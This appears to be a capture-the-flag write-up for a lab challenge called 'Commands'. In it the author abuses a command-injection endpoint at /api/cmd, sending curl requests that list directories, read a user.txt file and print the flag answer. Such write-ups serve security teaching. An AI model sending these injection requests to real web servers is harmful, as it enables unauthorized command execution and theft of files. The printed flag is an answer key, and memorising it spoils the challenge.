 # [Day 19] Commands

## Instructions

Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on `http://[your-ip]:3000/`

McSkidy actually found something interesting on the /api/cmd endpoint.

Check out the supporting material [here](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit?usp=sharing).

## #1 - What are the contents of the user.txt file?

We are told that there is a web service running at the following URL: `http://10.10.79.201:3000/api/cmd`

After trying a few injections, methods, I found that the following request was returning something interesting:

~~~
$ curl -s http://10.10.79.201:3000/api/cmd/ls
{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}
~~~

Following the logic, I was able to locate the `home` directory, and found the `user.txt` file:
~~~
$ curl -s http://10.10.79.201:3000/api/cmd/ls%20%2Fhome
{"stdout":"bestadmin\nec2-user\n","stderr":""}

$ curl -s http://10.10.79.201:3000/api/cmd/ls%20%2Fhome%2Fbestadmin
{"stdout":"bin\nnew-room\nrun.sh\nuser.txt\n","stderr":""}
~~~

I then changed from `ls` to `cat` to show the content of the flag:
~~~
$ curl -s http://10.10.79.201:3000/api/cmd/cat%20%2Fhome%2Fbestadmin%2Fuser.txt
{"stdout":"5W7WkjxBWwhe3RNsWJ3Q\n","stderr":""}
~~~

Answer: `5W7WkjxBWwhe3RNsWJ3Q`